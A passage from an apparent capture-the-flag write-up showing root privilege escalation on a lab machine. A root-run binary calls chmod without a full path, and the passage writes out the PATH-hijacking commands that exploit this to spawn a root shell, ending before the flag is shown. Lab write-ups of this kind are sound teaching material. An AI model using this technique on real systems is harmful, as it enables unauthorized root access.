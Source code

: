 I saw some process running after i ran docker-security

>2020/11/17 07:10:34 CMD: UID=0    PID=77936  | /usr/local/bin/docker-security 
>2020/11/17 07:10:34 CMD: UID=0    PID=77938  | sh -c chmod 700 /usr/bin/docker 
>2020/11/17 07:10:34 CMD: UID=0    PID=77939  | sh -c chmod 660 /var/run/docker.sock 
>2020/11/17 07:10:34 CMD: UID=0    PID=77940  | sh -c chmod 660 /var/run/docker.sock

The `chmod` commad was used without specifying the full path `/usr/bin/chmod`. This suggested me to try Path Hijacking.

### Path Hijacking

I made a custom chmod which spawned a shell:

```
dexter@laboratory:~$ echo "/bin/bash" >> chmod
```
I added the current directory to `$PATH`

```
dexter@laboratory:~$ export PATH=$(pwd):$PATH
```
Than i gave execute permission to chmod

```
dexter@laboratory:~$ chmod +x chmod
```
## Root Flag

I tried to run docker-security, and path-hijacking has worked, so root has ran my chmod command and spawned a root shell:
```
dexter@laboratory:~$ /usr/local/bin/docker-security
root@laboratory:~# id
uid=0(root) gid=0(root) groups=0(root),1000(dexter)
```
Finally, i got root.txt:
